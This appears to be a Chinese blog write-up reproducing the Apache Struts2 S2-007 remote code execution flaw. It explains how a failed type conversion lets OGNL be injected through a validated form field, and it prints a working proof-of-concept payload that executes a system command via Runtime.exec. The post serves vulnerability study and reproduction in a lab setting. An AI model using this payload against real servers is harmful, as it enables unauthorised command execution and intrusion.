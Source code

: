 ```yaml
---
title: S2-007 远程代码执行漏洞
date: 2020-07-29 21:45:51
categories: 漏洞复现
tags: struts2
---
```


#### 背景

当配置了验证规则 `-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。

影响版本：

> ​	2.0.0 - 2.2.3

<!--more-->

#### 复现过程

例如有 UserAction：

```java
(...)
public class UserAction extends ActionSupport {
	private Integer age;
	private String name;
	private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```java
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

POC:

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

![](http://cdn.laohuan.art/2020-07-29_22-03-52.png)

#### 参考文章

<https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md/>